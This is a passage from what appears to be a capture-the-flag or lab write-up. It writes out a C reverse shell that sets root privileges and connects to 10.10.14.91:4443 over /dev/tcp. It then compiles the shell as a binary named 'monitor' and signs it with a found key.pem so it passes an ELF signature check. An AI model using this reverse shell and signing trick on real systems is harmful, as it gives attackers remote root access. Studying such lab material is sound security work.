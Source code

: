 As I understand, we need to create a reverse shell, which will be located in the binary file `monitor`.
On the host, create `reverse.c` with the following contents:
```C
#include <unistd.h>
int main() {
	setuid(0); setgid(0);
	execl("/bin/bash", "bash", "-c", "bash -i >& /dev/tcp/10.10.14.91/4443 0>&1", NULL);
	return 0;
}
```
We build an executable file from it:
```bash
x86_64-linux-gnu-gcc -o monitor reverse.c -static
```

![image](images/20250729005534.png)

We have `key.pem` and `x509.genkey`. Most likely, we need to sign our monitor with them. To do this, we will use the [linux-elf-binary-signer](https://github.com/NUAA-WatchDog/linux-elf-binary-signer/tree/master) tool.
Let's do `make`:

![image](images/20250729005607.png)

Let's make a binary from this executable file, which will require `libssl` and `libcrypto` to be available in the system when running:
```bahs
gcc -o elf-sign elf_sign.c -lssl -lcrypto
```
Let's sign the monitor
```bash
./elf-sign sha256 key.pem key.pem monitor
```

![image](images/20250729005719.png)
